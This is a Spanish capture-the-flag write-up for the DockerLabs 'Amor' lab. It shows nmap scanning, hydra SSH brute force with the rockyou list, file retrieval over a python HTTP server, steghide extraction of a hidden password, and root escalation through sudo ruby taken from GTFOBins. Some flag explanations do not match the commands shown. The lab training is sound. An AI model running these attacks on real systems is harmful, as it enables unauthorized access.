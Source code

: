 # [Amor](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh amor.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8563720d-b839-447e-988d-bb80300a4b67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Vemos que nos da varias vistas:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ce9ba3fe-f606-47cc-8e14-9323006440a0)

<br>

Como por ejemplo, que un usuario tiene una contraseña débil y que existen dos posible usuarios `Juan` y `Carlota`.

<br>
<br>

## Hydra / Medusa

Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio ssh usando hydra en primer lugar, usaremos el usuario bob `hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

No encontraríamos nada, por lo que haremos fuerza bruta al otro usuro (Carlota) de la siguiente forma `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`, en esta caso si que nos encontraría la contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd0fa07f-95cd-4dfd-8661-ab1c4dcecc44)

 > Podríamos usar un archivo el cual contenga los nombre de usuarios, pero en esta caso tardaría más en encontrarnos la contraseña siempre y cuando pongamos primero al usuario juan.

<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Amor con `ssh carlota@172.17.0.2`, y a continuación nos pedirá la contraseña. <br>

> Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución. <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)

<br>
<br>

## Escalada de Privilegios

En este caso no será necesario el Tratamiento de la TTY con tan solo escribiendo bash ya tendremos una terminal cómoda. En todo caso el tratamiento sería así: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/59e0946c-7f69-430c-b586-a0ef4e31b6f0)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e2862f75-c832-4f97-be42-175ef81ccdf6)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Si nos vamos a la siguiente ruta `/home/carlota/Desktop/fotos/vacaciones/imagen.jpg` dentro del directorio personal de **carlota** nos encontramos con una imagen, nos la llevamos a nuestra máquina de atacante montando un servidor http con python de la siguiente manera: `python3 -m http.server 555`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c8c89ec2-e7a4-4532-a7f1-ff9757a29241)

<br>

Obtenemos dicha imagen, con el siguiente comando desde nuestra máquina de atacante `wget 172.17.0.2:555/imagen.jpg`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8f146058-f302-4061-9149-8d875a340341)

<br>
<br>

### Estenografía

Pasamos a analizar los metadatos de la imagen, para ver si tiene algo oculto, usaremos el siguiente comando: `steghide extract -sf imagen.jpg`, nos pedirá una passphrase pero le damos al enter, y obtendremos un archivo `secret.txt` el cual contendrá el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bc96bdef-8057-447b-9f64-59837d284d5b)

<br>

Parece que tiene una cadena de texto en base64 por lo que pasaremos a decodificarla con el siguiente comando `cat secret.txt`, y obtendremos lo que parece una contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f8ae1f7a-bed5-4212-81fa-812845870ba8)

<br>

Probamos a autenticarnos como oscar con el siguiente comando `su oscar` -> introducimos la contraseña y ya seremos oscar y escribimos `bash` para ejecutar una terminal de bash en ves de una sh:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/56d202b6-f64c-43cf-b580-ce4585832cbc)

<br>

Seguimos el mismo procedimiento de antes, ejecutando el comando `sudo -l` y los reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d70b5646-7f76-4925-9d37-fad3361ff03e)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en ruby, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/804e3fcd-5f15-44fa-8c3c-ed073e80517d)

<br>

Por lo cual ejecutaremos lo siguiente `sudo -u root ruby -e 'exec "/bin/bash"'`, y listo ya seremos root:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1716e422-11bc-4ec8-a191-49db425e1f1b)
